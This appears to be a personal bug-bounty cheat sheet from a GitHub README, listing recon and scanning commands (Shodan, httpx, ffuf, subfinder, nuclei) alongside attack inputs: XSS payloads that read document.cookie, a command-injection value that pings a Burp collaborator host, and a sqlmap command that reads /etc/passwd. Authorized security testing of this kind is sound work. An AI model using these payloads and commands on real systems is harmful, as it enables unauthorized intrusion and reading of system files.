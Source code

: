 # Bug Bounty Personal Tips

## Recon 

##### shodan
`http.favicon.hash:123456789`

## HTTPX 

`/home/kali/go/bin/httpx -l FC -ss -srd /media/sf_Test/FC/screenshots/ --title --status-code -o /media/sf_Test/FC_httpx.txt `

`/home/kali/go/bin/httpx -l FC -proxy http://192.168.0.131:1337 `

```
/home/kali/go/bin/httpx -l CHANGEME \
    -p 80,81,443,591,593,832,981,1010,1311,2082,2087,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5800,6543,7000,7396,7474,8000,8001,8008,8014,8042,8069,8080,8081,8088,8090,8091,8118,8123,8172,8222,8243,8280,8281,8333,8443,8500,8834,8880,8888,8983,9000,9043,9060,9080,9090,9091,9200,9443,9800,9981,12443,16080,18091,18092,20720,28017,11443 \
    -sc -follow-redirects --title -ss -favicon \
    -srd /media/sf_Test/CHANGEME/screenshots/ \
    -o /media/sf_Test/CHANGEME/CHANGEME_httpx.txt \
    -proxy http://192.168.0.131:1337
```

## FUZZ 

```
ffuf -w /media/sf_Test/_CHANGEME/_CHANGEME.txt:DOMAINSFUZZ \
     -w /media/sf_Test/https.txt:SCHEMEFUZZ \
     -w /media/sf_Test/filesoptmized.txt:FILESFUZZ \
     -u "SCHEMEFUZZ://DOMAINSFUZZ/FILESFUZZ" \ 
     -x "http://192.168.0.131:1337"
```

## XSS
`  : /"><script>alert(document.cookie)</script> `

` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E `

## SSRF 
` galletita ; ping -c 1 burp.oastify.com `

## SQLMAP

`sqlmap -u "http://X/dashboard/dashboard.php" --file-read="/etc/passwd"`

### OTHERS
` assetfinder X.com | tee -a /tmp/X.txt`

` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt `

`  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337`

` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 `

` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" `


